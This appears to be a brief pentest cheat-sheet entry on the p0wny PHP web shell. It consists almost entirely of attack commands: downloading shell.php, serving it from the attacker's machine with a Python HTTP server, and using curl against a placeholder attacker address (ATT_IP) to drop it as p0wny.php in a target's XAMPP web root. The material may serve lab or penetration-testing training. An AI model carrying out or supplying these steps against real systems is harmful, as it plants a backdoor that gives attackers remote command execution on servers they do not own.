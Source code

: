 # p0wny shell

{% embed url="https://github.com/flozz/p0wny-shell" %}



<pre class="language-bash" data-title="Attack machine"><code class="lang-bash"><strong>wget https://raw.githubusercontent.com/flozz/p0wny-shell/refs/heads/master/shell.php
</strong>
python3 -m http.server 80
</code></pre>

Upload the shell into the WebSite

{% code title="xamp example" overflow="wrap" %}
```bash
cd C:\xampp\htdocs
curl http://ATT_IP/shell.php -o p0wny.php
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
